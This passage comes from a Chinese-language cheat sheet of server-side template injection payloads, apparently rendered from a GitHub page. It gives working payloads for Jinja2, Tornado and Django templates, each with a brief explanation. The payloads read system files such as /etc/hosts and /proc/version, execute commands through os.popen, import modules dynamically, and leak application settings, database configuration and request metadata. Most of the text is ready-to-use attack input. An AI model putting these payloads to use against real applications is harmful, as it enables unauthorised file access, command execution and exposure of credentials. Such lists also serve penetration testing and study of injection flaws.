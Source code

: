 ##### 读取文件

* 读取 `/etc/hosts` 文件
    * 输入：`{ { ''.__class__.__mro__[2].__subclasses__()[40]('/etc/hosts').read() }}`
    * 原理：与读取 `/etc/passwd` 类似，通过 Python 内置对象和方法定位到文件操作类，读取指定文件内容。
* 动态指定文件路径
    * 输入：`{ { request.args.file|string.__class__.__mro__[2].__subclasses__()[40](request.args.file).read() }}?file=/etc/hosts`
    * 原理：利用请求参数动态指定要读取的文件路径，增加攻击的灵活性。

##### 执行系统命令

* 查看当前工作目录
    * 输入：`{ { ''.__class__.__mro__[2].__subclasses__()[132].__init__.__globals__['os'].popen('pwd').read() }}`
    * 原理：使用 `os.popen` 执行 `pwd` 命令，返回当前工作目录。
* 查看系统进程信息
    * 输入：`{ { ''.__class__.__mro__[2].__subclasses__()[132].__init__.__globals__['os'].popen('ps -ef').read() }}`
    * 原理：执行 `ps -ef` 命令，查看系统中所有进程的详细信息。

##### 加载并执行 Python 模块

* 导入并执行 `socket` 模块
    * 输入：`{ { ''.__class__.__mro__[2].__subclasses__()[132].__init__.__globals__['__import__']('socket').gethostname() }}`
    * 原理：通过 `__import__` 函数动态导入 `socket` 模块，然后调用 `gethostname` 方法获取主机名。
        

#### （2），Tornado 模板引擎（Python）

##### 信息获取类

* 获取应用配置信息
    * 输入：`{ { handler.settings }}`
    * 原理：在 Tornado 框架里，`handler` 通常指继承自 `tornado.web.RequestHandler` 的请求处理类实例，`settings` 是 Tornado 应用程序的配置设置对象。此表达式可输出当前请求处理类实例所关联的应用配置信息，若配置信息包含敏感内容，直接输出会导致信息泄露。
* 获取请求相关信息
    * 输入：`{ { handler.request }}`
    * 原理：`handler.request` 包含了客户端请求的详细信息，如请求方法、请求头、请求参数等。攻击者可借此了解请求的上下文，为后续攻击做准备。

##### 读取文件

* 读取 `/proc/version` 文件（获取系统版本信息）
    * 输入：`{ { ''.__class__.__mro__[2].__subclasses__()[40]('/proc/version').read() }}`
    * 原理：同 Jinja2 读取文件原理，利用 Python 内置对象和方法读取指定文件内容。

#### （3）Django 模板引擎（Python）

##### 利用视图传递对象属性

* 假设视图传递了 `settings` 对象获取数据库配置
    * 输入：`{ { settings.DATABASES.default }}`
    * 原理：尝试访问视图传递的 `settings` 对象中的数据库配置信息。
* 假设视图传递了 `request` 对象获取请求信息
    * 输入：`{ { request.META }}`
    * 原理：获取请求的元数据信息，可能包含客户端 IP、请求头信息等。
